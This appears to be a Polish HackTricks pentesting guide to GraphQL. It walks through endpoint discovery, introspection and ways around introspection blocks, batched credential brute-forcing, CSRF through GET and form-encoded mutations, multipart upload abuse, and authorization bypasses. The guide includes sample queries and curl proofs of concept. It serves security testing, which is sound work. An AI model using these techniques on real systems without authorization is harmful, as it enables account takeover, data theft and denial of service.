

# GraphQL

{{#include ../banners/hacktricks-training.md}}

## Wprowadzenie

GraphQL jest **przedstawiany** jako **wydajna alternatywa** dla REST API, oferująca uproszczony sposób pobierania danych z backendu. W przeciwieństwie do REST, który często wymaga wielu żądań do różnych endpointów, aby zebrać dane, GraphQL umożliwia pobranie wszystkich potrzebnych informacji za pomocą **jednego żądania**. To usprawnienie przynosi **znaczne korzyści deweloperom**, ograniczając złożoność procesów pobierania danych.<sup>[[3]](#references)</sup>

## GraphQL i bezpieczeństwo

GraphQL sam w sobie nie zapewnia uwierzytelniania ani autoryzacji aplikacji; deweloperzy muszą egzekwować te mechanizmy w otaczającej aplikacji i logice resolverów. W przeciwnym razie endpointy mogą ujawniać poufne informacje lub udostępniać operacje nieuwierzytelnionym albo nieuprawnionym użytkownikom.<sup>[[1]](#references)[[6]](#references)</sup>

### Ataki brute force katalogów i GraphQL

Podczas poszukiwania ujawnionych endpointów GraphQL uwzględnij typowe ścieżki w skanach wykrywających zasoby. Praktyczne poradniki testowania GraphQL wykorzystują między innymi takie ścieżki i metody sprawdzania:<sup>[[4]](#references)[[5]](#references)</sup>

- `/graphql`
- `/graphiql`
- `/graphql.php`
- `/graphql/console`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`

Zidentyfikowanie dostępnych instancji GraphQL umożliwia sprawdzenie obsługiwanych zapytań. Ma to kluczowe znaczenie dla zrozumienia, jakie dane są dostępne za pośrednictwem endpointu. Ułatwia to system introspekcji GraphQL, który opisuje zapytania obsługiwane przez schemat. Więcej informacji na ten temat znajdziesz w dokumentacji GraphQL dotyczącej introspekcji: [**GraphQL: A query language for APIs.**](https://graphql.org/learn/introspection/)<sup>[[20]](#references)</sup>

### Rozpoznawanie

Narzędzie [**graphw00f**](https://github.com/dolevf/graphw00f) może zidentyfikować silnik GraphQL używany przez serwer i wyświetlić informacje przydatne dla audytora bezpieczeństwa.

#### Uniwersalne zapytania <a href="#universal-queries" id="universal-queries"></a>

Aby sprawdzić, czy URL prowadzi do usługi GraphQL, można wysłać **uniwersalne zapytanie** `query{__typename}`. Jeśli odpowiedź zawiera `{"data": {"__typename": "Query"}}`, oznacza to, że pod tym URL znajduje się endpoint GraphQL. Metoda ta wykorzystuje pole GraphQL `__typename`, które ujawnia typ odpytywanego obiektu.

```javascript
query{__typename}
```

### Podstawowe rozpoznanie

Serwery GraphQL-over-HTTP muszą obsługiwać `POST` i mogą obsługiwać `GET`; mutacje nie mogą być wykonywane za pomocą `GET`. Zgodne serwery obsługują treści żądań w formacie JSON, a niektóre implementacje akceptują dodatkowo formularze lub inne proste typy zawartości. W przypadku operacji zmieniających stan należy wymagać `POST` z odpowiednim typem zawartości JSON i stosować standardowe zabezpieczenia CSRF; odrzucanie prostych typów zawartości może wyeliminować jedną z typowych ścieżek CSRF, ale nie zapewnia pełnej ochrony przed CSRF.<sup>[[21]](#references)</sup>

#### Introspekcja

Aby użyć introspekcji do odkrywania informacji o schemacie, wykonaj zapytanie o pole `__schema`. To pole jest dostępne w typie głównym wszystkich zapytań.

```bash
query={__schema{types{name,fields{name}}}}
```

.png>)

```bash
query={__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```

Za pomocą tego zapytania możesz wyodrębnić wszystkie typy, ich pola i argumenty (w tym typy argumentów). Jest to przydatne przy nauce wykonywania zapytań do API.

.png>)

**Błędy**

Sprawdź, czy zwracane są szczegółowe **błędy**, ponieważ mogą ujawniać przydatne informacje o schemacie i implementacji.

```
?query={__schema}
?query={}
?query={thisdefinitelydoesnotexist}
```

.png>)

**Enumerowanie schematu bazy danych za pomocą introspekcji**

> [!TIP]
> Jeśli introspekcja jest włączona, ale powyższe zapytanie nie działa, spróbuj usunąć dyrektywy `onOperation`, `onFragment` i `onField` ze struktury zapytania.

```bash
  #Full introspection query

query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
         ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
        }
        onOperation  #Often needs to be deleted to run query
        onFragment   #Often needs to be deleted to run query
        onField      #Often needs to be deleted to run query
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```

Zapytanie introspekcyjne inline:

```
/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```

Poprzednie żądanie to zapytanie GraphQL, które zrzuca metadane schematu, takie jak nazwy obiektów, parametry i typy.

.png>)

Jeśli introspekcja jest włączona, możesz użyć [**GraphQL Voyager**](https://github.com/APIs-guru/graphql-voyager), aby wyświetlić wszystkie opcje w GUI.<sup>[[2]](#references)</sup>

### Wykonywanie zapytań

Skoro wiemy już, jakie informacje są przechowywane w bazie danych, spróbujmy **wyodrębnić pewne wartości**.

W introspekcji możesz znaleźć **obiekt, który możesz bezpośrednio odpytać** (nie możesz odpytać obiektu tylko dlatego, że istnieje). Na poniższym obrazie widać, że „_queryType_” nazywa się „_Query_”, a jednym z pól obiektu „_Query_” jest „_flags_”, który również jest typem obiektu. Możesz więc odpytać obiekt flag.


Zwróć uwagę, że typ zapytania „_flags_” to „_Flags_”, a ten obiekt jest zdefiniowany jak poniżej:

.png>)

Obiekty `_Flags_` zawierają pola **name** i **value**, więc możesz pobrać wszystkie nazwy i wartości flag za pomocą:

```javascript
query={flags{name, value}}
```

Jeśli **obiekt, o który chcesz zapytać**, jest typem prostym, takim jak ciąg znaków, jak w poniższym przykładzie:

.png>)

Możesz odpytać go bezpośrednio za pomocą:

```javascript
query = { hiddenFlags }
```

Innym przykładem jest sytuacja, w której w obiekcie typu "_Query_" znajdują się 2 obiekty: "_user_" i "_users_".\
Jeśli te obiekty nie wymagają żadnych argumentów do wyszukiwania, możesz **pobrać wszystkie zawarte w nich informacje**, po prostu **prosząc** o wybrane dane. W tym przykładzie z Internetu można wyodrębnić zapisane nazwy użytkowników i hasła:

.png>)

Jednak w tym przykładzie próba wykonania tego kończy się **błędem**:

.png>)

Wygląda na to, że wyszukiwanie odbywa się przy użyciu argumentu "_**uid**_" typu _**Int**_.\
Sekcja [Podstawowa enumeracja](graphql.md#basic-enumeration) zawiera już zapytanie, które zwraca potrzebne informacje: `query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}`

Jeśli odczytasz obraz pokazujący wynik tego zapytania, zobaczysz, że "_**user**_" miał argument "_**uid**_" typu _Int_.

W tym przykładzie lekkie brute force wartości _**uid**_ ujawnia, że _**uid**=**1**_ zwraca nazwę użytkownika i hasło:\
`query={user(uid:1){user,password}}`

.png>)

Zauważ, że **odkryłem**, iż mogę pytać o parametry "_**user**_" i "_**password**_", ponieważ gdy próbuję wyszukać coś, co nie istnieje (`query={user(uid:1){noExists}}`), pojawia się ten błąd:

.png>)

Podczas **fazy enumeracji** odkryłem też, że obiekt "_**dbuser**_" zawierał pola "_**user**_" i "_**password**_".

**Sztuczka z zrzutem ciągu zapytania (dzięki @BinaryShadow\_)**

Jeśli możesz wyszukiwać według wartości typu String, na przykład: `query={theusers(description: ""){username,password}}`, a następnie **wyszukasz pusty ciąg znaków**, zostaną **zrzucone wszystkie dane**. (_Zauważ, że ten przykład nie jest związany z przykładem z poradników; załóżmy, że w tym przykładzie możesz wyszukiwać za pomocą "**theusers**" według pola String o nazwie "**description**"_).

### Wyszukiwanie

Przykłady w sekcjach dotyczących wyszukiwania i mutation korzystają z **bazy danych** zawierającej **osoby** i **filmy**. **Osoby** są identyfikowane na podstawie **adresu e-mail** i **imienia**; **filmy** — na podstawie **nazwy** i **oceny**. **Osoby** mogą być dla siebie znajomymi i mogą mieć filmy, co odzwierciedla relacje w bazie danych.

Możesz **wyszukiwać** osoby **według** **imienia** i pobierać ich adresy e-mail:

```javascript
{
  searchPerson(name: "John Doe") {
    email
  }
}
```

Możesz **wyszukiwać** osoby **według** **nazwy** i uzyskać ich **subskrybowane** **filmy**:

```javascript
{
  searchPerson(name: "John Doe") {
    email
    subscribedMovies {
      edges {
        node {
          name
        }
      }
    }
  }
}
```

Zwróć uwagę, że wskazano pobranie `name` z `subscribedMovies` danej osoby.

Możesz też **wyszukiwać kilka obiektów jednocześnie**. W tym przypadku wyszukiwane są 2 filmy:

```javascript
{
  searchPerson(subscribedMovies: [{name: "Inception"}, {name: "Rocky"}]) {
    name
  }
}r
```

A nawet **relacje między kilkoma różnymi obiektami z użyciem aliasów**:

```javascript
{
  johnsMovieList: searchPerson(name: "John Doe") {
    subscribedMovies {
      edges {
        node {
          name
        }
      }
    }
  }
  davidsMovieList: searchPerson(name: "David Smith") {
    subscribedMovies {
      edges {
        node {
          name
        }
      }
    }
  }
}
```

### Mutations

**Mutations służą do wprowadzania zmian po stronie serwera.**

W **introspection** można znaleźć zadeklarowane **mutations**. Na poniższym obrazie "_MutationType_" nazywa się "_Mutation_", a obiekt "_Mutation_" zawiera nazwy mutations (w tym przypadku "_addPerson_"):

.png>)

Korzystając z tego samego schematu osób i filmów, mutation **tworząca nowy film** w bazie danych może wyglądać jak w poniższym przykładzie (gdzie mutation nazywa się `addMovie`):

```javascript
mutation {
  addMovie(name: "Jumanji: The Next Level", rating: "6.8/10", releaseYear: 2019) {
    movies {
      name
      rating
    }
  }
}
```

**Zwróć uwagę, że w zapytaniu wskazano zarówno wartości, jak i typ danych.**

Ponadto baza danych obsługuje operację **mutacji** o nazwie `addPerson`, która umożliwia tworzenie **osób** wraz z powiązaniami z istniejącymi **znajomymi** i **filmami**. Należy pamiętać, że znajomi i filmy muszą już istnieć w bazie danych, zanim zostaną powiązani z nowo utworzoną osobą.

```javascript
mutation {
  addPerson(name: "James Yoe", email: "jy@example.com", friends: [{name: "John Doe"}, {email: "jd@example.com"}], subscribedMovies: [{name: "Rocky"}, {name: "Interstellar"}, {name: "Harry Potter and the Sorcerer's Stone"}]) {
    person {
      name
      email
      friends {
        edges {
          node {
            name
            email
          }
        }
      }
      subscribedMovies {
        edges {
          node {
            name
            rating
            releaseYear
          }
        }
      }
    }
  }
}
```

### Directive Overloading

Jak wyjaśniono w [**jednym z opisanych w tym raporcie przypadków**](https://www.landh.tech/blog/20240304-google-hack-50000/), directive overloading polega na wywołaniu dyrektywy nawet miliony razy, aby serwer marnował zasoby, aż będzie można przeprowadzić na nim DoS.<sup>[[13]](#references)</sup>

### Batching brute-force in 1 API request

Te informacje pochodzą z [https://lab.wallarm.com/graphql-batching-attack/](https://lab.wallarm.com/graphql-batching-attack/).<sup>[[14]](#references)</sup>\
Uwierzytelnianie przez GraphQL API polega tu na **jednoczesnym wysłaniu wielu zapytań z różnymi danymi uwierzytelniającymi**, aby je sprawdzić. To klasyczny atak brute force, ale dzięki funkcji batching w GraphQL można teraz wysłać w jednym żądaniu HTTP więcej niż jedną parę login/hasło. Ta metoda może wprowadzić zewnętrzne aplikacje monitorujące rate limit w błąd i sprawić, że uznają, iż wszystko jest w porządku, a żaden bot brute-forcing nie próbuje odgadnąć haseł.

Poniżej znajduje się najprostszy przykład żądania uwierzytelniającego aplikacji, z **3 różnymi parami adres e-mail/hasło naraz**. Oczywiście w ten sam sposób można wysłać tysiące par w jednym żądaniu:

.png>)

Jak widać na zrzucie ekranu odpowiedzi, pierwsze i trzecie żądanie zwróciły _null_, a odpowiadające im informacje znalazły się w sekcji _error_. **Druga mutacja zawierała poprawne dane uwierzytelniające**, a odpowiedź zawiera prawidłowy token sesji uwierzytelniającej.

 (1).png>)

## GraphQL Without Introspection

Coraz więcej **endpointów graphql wyłącza introspection**. Jednak błędy zwracane przez graphql po otrzymaniu nieoczekiwanego żądania wystarczają narzędziom takim jak [**clairvoyance**](https://github.com/nikitastupin/clairvoyance), aby odtworzyć większość schematu.

Ponadto rozszerzenie Burp Suite [**GraphQuail**](https://github.com/forcesunseen/graphquail) **obserwuje żądania GraphQL API przechodzące przez Burp** i przy każdym nowym zapytaniu tworzy wewnętrzny **schemat** GraphQL. Może też udostępnić schemat dla GraphiQL i Voyager. Rozszerzenie zwraca fałszywą odpowiedź, gdy otrzyma zapytanie introspection. Dzięki temu GraphQuail pokazuje wszystkie zapytania, argumenty i pola dostępne w API. Więcej informacji znajdziesz [**tutaj**](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema).<sup>[[15]](#references)</sup>

Przydatną **wordlistę** do wyszukiwania [**encje GraphQL znajdziesz tutaj**](https://github.com/Escape-Technologies/graphql-wordlist?).

### Bypassing GraphQL introspection defences <a href="#bypassing-graphql-introspection-defences" id="bypassing-graphql-introspection-defences"></a>

Aby ominąć ograniczenia dotyczące zapytań introspection w API, skuteczne okazuje się wstawienie **znaku specjalnego po słowie kluczowym `__schema`**. Ta metoda wykorzystuje częste przeoczenia programistów w wyrażeniach regex, które mają blokować introspection, skupiając się na słowie kluczowym `__schema`. Dodanie znaków takich jak **spacje, znaki nowej linii i przecinki**, ignorowanych przez GraphQL, ale nieuwzględnionych w regex, może pozwolić ominąć ograniczenia. Na przykład zapytanie introspection z nową linią po `__schema` może ominąć takie zabezpieczenia:

```bash
# Example with newline to bypass
{
    "query": "query{__schema
    {queryType{name}}}"
}
```

Jeśli się nie powiedzie, rozważ alternatywne metody wysyłania żądań, takie jak **żądania GET** lub **POST z `x-www-form-urlencoded`**, ponieważ ograniczenia mogą dotyczyć tylko żądań POST.

### Wypróbuj WebSockets

Jak wspomniano w [**tym wystąpieniu**](https://www.youtube.com/watch?v=tIo_t5uUK50), sprawdź, czy można połączyć się z graphQL przez WebSockets, ponieważ może to pozwolić ominąć potencjalny WAF i sprawić, że komunikacja WebSocket ujawni schemat graphQL:<sup>[[16]](#references)</sup>

```javascript
ws = new WebSocket("wss://target/graphql", "graphql-ws")
ws.onopen = function start(event) {
  var GQL_CALL = {
    extensions: {},
    query: `
        {
            __schema {
                _types {
                    name
                }
            }
        }`,
  }

  var graphqlMsg = {
    type: "GQL.START",
    id: "1",
    payload: GQL_CALL,
  }
  ws.send(JSON.stringify(graphqlMsg))
}
```

### **Odkrywanie ujawnionych struktur GraphQL**

Gdy introspekcja jest wyłączona, przydatną strategią jest sprawdzenie kodu źródłowego witryny pod kątem preloaded queries w bibliotekach JavaScript. Można je znaleźć na karcie `Sources` w narzędziach deweloperskich. Dostarczają informacji o schemacie API i mogą ujawnić **potencjalnie ujawnione wrażliwe zapytania**. Polecenia wyszukiwania w narzędziach deweloperskich to:

```javascript
Inspect/Sources/"Search all files"
file:* mutation
file:* query
```

### Rekonstrukcja schematu na podstawie błędów i fingerprinting silnika (InQL v6.1+)

Gdy introspekcja jest zablokowana, **InQL v6.1+** może teraz odtworzyć dostępny schemat wyłącznie na podstawie informacji zwrotnych z błędów. Nowy *schema bruteforcer* grupuje kandydackie nazwy pól/argumentów z konfigurowalnej wordlisty i wysyła je w operacjach wielopolowych, aby ograniczyć liczbę żądań HTTP. Przydatne wzorce błędów są następnie automatycznie zbierane:<sup>[[9]](#references)</sup>

- `Field 'bugs' not found on type 'inql'` potwierdza istnienie typu nadrzędnego, a jednocześnie odrzuca nieprawidłowe nazwy pól.
- `Argument 'contribution' is required` wskazuje, że argument jest wymagany, i ujawnia jego zapis.
- Sugestie takie jak `Did you mean 'openPR'?` trafiają z powrotem do kolejki jako zweryfikowani kandydaci.
- Celowo wysyłając wartości niewłaściwego typu prostego (np. liczby całkowite zamiast ciągów znaków), bruteforcer wywołuje błędy niezgodności typów, które ujawniają rzeczywistą sygnaturę typu, wraz z opakowaniami list/obiektów, takimi jak `[Episode!]`.

Bruteforcer rekurencyjnie przeszukuje każdy typ, dla którego znajduje nowe pola, więc wordlista łącząca ogólne nazwy GraphQL z przypuszczeniami dotyczącymi konkretnej aplikacji pozwoli z czasem odwzorować duże fragmenty schematu bez introspekcji. Czas działania zależy głównie od limitowania liczby żądań i liczby kandydatów, dlatego dostrojenie ustawień InQL (wordlista, rozmiar partii, ograniczanie tempa, ponowienia) ma kluczowe znaczenie dla bardziej dyskretnych działań.

W tej samej wersji InQL udostępnia **fingerprinter silnika GraphQL** (wykorzystujący sygnatury z narzędzi takich jak `graphw00f`). Moduł wysyła celowo nieprawidłowe dyrektywy/zapytania i klasyfikuje backend, dopasowując dokładny tekst błędu. Na przykład:<sup>[[9]](#references)</sup>

```graphql
query @deprecated {
    __typename
}
```

- Apollo odpowiada `Directive "@deprecated" may not be used on QUERY.`
- GraphQL Ruby odpowiada `'@deprecated' can't be applied to queries`.

Po rozpoznaniu silnika InQL wyświetla odpowiedni wpis z [GraphQL Threat Matrix](https://github.com/nicholasaleks/graphql-threat-matrix), pomagając testerom ustalić priorytety słabości występujących w danej rodzinie serwerów (domyślne zachowanie introspekcji, limity głębokości, luki CSRF, przesyłanie plików itp.).<sup>[[9]](#references)[[10]](#references)</sup>

Na koniec **automatyczne generowanie zmiennych** usuwa klasyczną przeszkodę podczas przechodzenia do Burp Repeater/Intruder. Gdy operacja wymaga JSON-a ze zmiennymi, InQL wstawia teraz rozsądne wartości domyślne, dzięki czemu żądanie przechodzi walidację schematu już przy pierwszym wysłaniu:<sup>[[9]](#references)</sup>

```text
"String"  -> "exampleString"
"Int"     -> 42
"Float"   -> 3.14
"Boolean" -> true
"ID"      -> "123"
ENUM      -> first declared value
```

Zagnieżdżone obiekty wejściowe dziedziczą to samo mapowanie, więc od razu otrzymujesz składniowo i semantycznie poprawny payload, który można poddać fuzzingowi pod kątem SQLi/NoSQLi/SSRF/obejść logiki bez ręcznego odtwarzania działania każdego argumentu.

## CSRF w GraphQL

Jeśli nie wiesz, czym jest CSRF, przeczytaj tę stronę:

{{#ref}}
csrf-cross-site-request-forgery.md
{{#endref}}

Można znaleźć wiele endpointów GraphQL **skonfigurowanych bez tokenów CSRF.**

Pamiętaj, że żądania GraphQL są zwykle wysyłane metodą POST z nagłówkiem Content-Type **`application/json`**.

```javascript
{"operationName":null,"variables":{},"query":"{\n  user {\n    firstName\n    __typename\n  }\n}\n"}
```

Jednak większość endpointów GraphQL obsługuje również żądania POST w formacie **`form-urlencoded`:**

```javascript
query=%7B%0A++user+%7B%0A++++firstName%0A++++__typename%0A++%7D%0A%7D%0A
```

Dlatego ponieważ żądania CSRF, takie jak powyższe, są wysyłane **bez żądań preflight**, możliwe jest **wprowadzanie** **zmian** w GraphQL poprzez wykorzystanie CSRF.

Pliki cookie bez jawnego atrybutu `SameSite` są zazwyczaj traktowane jako `SameSite=Lax`. Takie pliki cookie mogą być dołączane do żądania cross-site tylko wtedy, gdy jest ono nawigacją najwyższego poziomu korzystającą z bezpiecznej metody (w szczególności `GET`), więc nie są wysyłane w zwykłych żądaniach cross-site dotyczących zasobów podrzędnych.<sup>[[22]](#references)</sup>

Niektóre serwery GraphQL akceptują również **żądanie query jako żądanie GET**, a implementacja może nie weryfikować tokenu CSRF w tej ścieżce.

Możliwe może być też wykorzystanie [**ataku XS-Search**](xs-search/index.html) do eksfiltracji treści z endpointu GraphQL z użyciem poświadczeń użytkownika.

Więcej informacji **znajdziesz w** [**oryginalnym wpisie**](https://blog.doyensec.com/2021/05/20/graphql-csrf.html).<sup>[[17]](#references)</sup>

### Sprawdź, czy GET wykonuje mutacje

GraphQL over HTTP dopuszcza metodę `GET` dla zapytań, ale wymaga, by serwer odrzucał mutacje przesyłane metodą `GET`.<sup>[[21]](#references)</sup> graphql-cop zawiera osobny test obsługi mutacji tą metodą.<sup>[[30]](#references)</sup> W przypadku mutacji, której efekt możesz bezpiecznie zaobserwować i cofnąć, zapisz stan początkowy i potwierdź oczekiwany efekt za pomocą `POST`. Przywróć ten stan przed wysłaniem tej samej operacji metodą `GET`, z parametrem `query` zakodowanym w adresie URL. Zweryfikuj nowy efekt uboczny — sam kod HTTP `200` lub odpowiedź bez błędów nie dowodzą wykonania operacji.<sup>[[21]](#references)[[30]](#references)</sup>

```bash
curl -G 'https://example.com/graphql' \
  --data-urlencode 'query=mutation { updateTestRecord(id: "1", value: "probe") { id } }'
```

Jeśli mutation działa przez `GET`, osobno oceń CSRF w przeglądarce, uwzględniając rzeczywiste zachowanie atrybutu `SameSite` ciasteczka docelowej aplikacji i jej zabezpieczenia CSRF; samo uwierzytelnione żądanie z wiersza poleceń nie dowodzi, że przeglądarka może je wywołać.<sup>[[22]](#references)</sup> Zobacz [wymagania wstępne CSRF](csrf-cross-site-request-forgery.md#prerequisites-for-a-csrf-attack), aby poznać warunki dotyczące przeglądarki. Po sprawdzeniu wyniku przywróć testowy rekord.

### Nadużycia przesyłania multipart (skalar `Upload`)

Wiele stosów GraphQL implementuje **specyfikację żądań multipart GraphQL**, aby obsługiwać skalary `Upload`.<sup>[[11]](#references)</sup> Z perspektywy ofensywnej, gdy zauważysz `scalar Upload`, `multipart/form-data` lub mutacje takie jak `uploadAvatar`, `createMediaItem` czy `import*`, testuj więcej niż tylko podstawową walidację plików:

- **CSRF przez multipart**: `multipart/form-data` to **proste żądanie**, więc przeglądarki mogą wysyłać mutacje przesyłające pliki między domenami **bez preflightu**. Jest to szczególnie istotne, gdy aplikacja twierdzi, że w innych miejscach akceptuje wyłącznie JSON.
- **Ponowne użycie zmiennej upload**: GraphQL pozwala odwoływać się do tej samej zmiennej wiele razy. Jeśli backend nie wymusza jednokrotnego użycia zmiennych upload, ponowne użycie jednego strumienia pliku w argumentach kilku resolverów może wywołać wielokrotne odczyty, przedwczesne wyczerpanie strumienia lub obciążenie serwera buforowaniem/pamięcią.
- **Osierocone części / nadmiarowe pliki**: niektóre parsery multipart buforują każdy odebrany plik, zanim sprawdzą, czy jest on faktycznie używany w polu `map`. Wysyłanie dużych, nieużywanych części to zatem dobry sposób na sprawdzenie, czy można wyczerpać miejsce na dysku lub pamięć RAM.

Szybki test **ponownego użycia zmiennej**:

```bash
curl -X POST https://target/graphql \
  -F 'operations={"query":"mutation($f: Upload!){a:uploadAvatar(file:$f){id} b:uploadAvatar(file:$f){id}}","variables":{"f":null}}' \
  -F 'map={"0":["variables.f"]}' \
  -F '0=@/tmp/poc.bin'
```

Przetestuj też nieprawidłowe obiekty `map` z **dodatkowymi częściami plików** (na przykład drugą częścią, do której nic się nie odwołuje) i obserwuj różnice w czasie odpowiedzi, przyroście plików tymczasowych lub błędach reverse proxy.

## Cross-site WebSocket hijacking w GraphQL

Podobnie jak w przypadku podatności CRSF wykorzystujących GraphQL, możliwe jest również przeprowadzenie **Cross-site WebSocket hijacking, aby wykorzystać uwierzytelnianie GraphQL przy użyciu niezabezpieczonych plików cookie** i skłonić użytkownika do wykonania nieoczekiwanych działań w GraphQL.

Więcej informacji:

{{#ref}}
websocket-attacks.md
{{#endref}}

## Autoryzacja w GraphQL

Wiele funkcji GraphQL zdefiniowanych na endpointcie może sprawdzać jedynie uwierzytelnienie żądającego, ale nie jego uprawnienia.

Modyfikacja zmiennych wejściowych zapytania może doprowadzić do [leak](https://hackerone.com/reports/792927) poufnych danych konta.<sup>[[19]](#references)</sup>

Mutation może nawet doprowadzić do przejęcia konta, jeśli spróbuje się zmodyfikować dane innego konta.

```javascript
{
  "operationName":"updateProfile",
  "variables":{"username":INJECT,"data":INJECT},
  "query":"mutation updateProfile($username: String!,...){updateProfile(username: $username,...){...}}"
}
```

### Ominięcie autoryzacji w GraphQL

[Łączenie zapytań](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln) może pozwolić ominąć słaby system uwierzytelniania.<sup>[[18]](#references)</sup>

W poniższym przykładzie widać, że operacja to "forgotPassword" i powinna wykonywać tylko powiązane z nią zapytanie forgotPassword. Można to obejść, dodając na końcu kolejne zapytanie — w tym przypadku dodajemy "register" oraz zmienną użytkownika, aby system zarejestrował nowego użytkownika.

<figure><figcaption></figcaption></figure>

### Porównanie bezpośrednich zapytań z Relay `node(id:)`

Schematy zgodne z Relay mogą udostępniać główne pole `node(id: ID!)`, które ponownie pobiera dowolny obiekt implementujący interfejs `Node`. Jest to osobna ścieżka dostępu do obiektu, który aplikacja zwykle pobiera za pomocą pola specyficznego dla danego typu. W rekomendacji API Platform opisano przypadek, w którym zabezpieczenia na poziomie operacji chroniły zapytanie specyficzne dla danego typu, ale nie były stosowane do wyszukiwania przez `node`.<sup>[[28]](#references)[[29]](#references)</sup>

Znajdź pole `node` za pomocą introspekcji lub przechwyconego zapytania klienta. Uzyskaj `id` obiektu docelowego z odpowiedzi dostępnej dla Twojego konta testowego; użyj dokładnie tego ID, ponieważ jego format zależy od implementacji. Porównaj ten sam obiekt i pola za pomocą obu ścieżek, używając konta nieuwierzytelnionego lub konta z niższymi uprawnieniami:<sup>[[28]](#references)[[29]](#references)</sup>

```graphql
query Direct { book(id: "/books/1") { id title } }
```

```graphql
query ViaNode {
  node(id: "/books/1") { id ... on Book { title } }
}
```

Zastąp `Book`, `book` i ID nazwami oraz wartościami z docelowego schematu. Jeśli bezpośrednie wyszukiwanie odmawia dostępu, ale `node` zwraca chroniony obiekt lub pola dla tego samego podmiotu, alternatywny resolver ma lukę w autoryzacji. Samo działające pole `node` jest oczekiwanym zachowaniem, a nie podatnością. Ogólne testowanie autoryzacji na poziomie obiektów opisano w sekcji [IDOR/BOLA](idor.md).<sup>[[28]](#references)[[29]](#references)</sup>

## Ujawnione subgraphs Apollo Federation (`_service { sdl }` i `_entities`)

